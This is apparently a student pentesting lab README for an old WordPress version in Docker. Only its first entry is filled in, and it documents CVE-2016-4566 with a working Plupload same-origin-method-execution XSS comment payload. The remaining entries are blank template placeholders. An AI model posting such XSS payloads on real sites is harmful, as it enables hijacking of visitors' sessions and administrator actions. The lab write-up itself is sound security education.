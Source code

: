 # Project 7 - WordPress Pentesting

> Time spent: 5+ hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Test Environment

Created virtual environment in Docker.
  - [ ] GIF Walkthrough: 
  
		<img src="docker-wpVSkali.gif" alt="docker-wpVSkali Walkthrough">
		
## Pentesting Report

### 1. WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME) - CVE-2016-4566
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (XSS)
    - Tested in version: 4.1
    - Fixed in version: 4.1.11 
  - [ ] GIF Walkthrough: 
  
		<img src="SOMExss.gif" alt="CVE-2016-4566 Walkthrough">
		
  - [ ] Steps to recreate: 
  
			- As a logged in user, leaving a reply/comment to a post using the payload:
			
			```
			<button onclick="fire()">Click</button>
			<script>
			function fire() {
			open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
			setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
				}
			</script>	
			```
			
			
			- After this comment posts sucessfully, any user that comes across the post will see a clickable button for the comment. If that user clicks the button, the XSS attack will execute and attempt to download a malicious payload from the attack. 
			
			
			- In the gif walkthrough, my browser extentions sucessfully blocks the attack from downloading the file, but a user without the proper safeguards would be prompted to download a file. 
			
  - [ ] References:
    - [Link 1: wpscan] (https://wpscan.com/vulnerability/a82a6c6f-1787-4adc-84dd-3151f1edfd06)
	- [Link 2: cve.mitre] (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566)
	- [Link 3: wordpress.org] (https://wordpress.org/news/2016/05/wordpress-4-5-2/)
	- [Link 4: github/wordpress] (https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8)
	- [Link 5: gist.github] (https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)
### 2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- [wpVSkali] (https://github.com/0xrutvij/wpVSkali)


GIFs created with [ScreenToGif](https://www.screentogif.com).

## Notes

- Other notes:

## License

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.

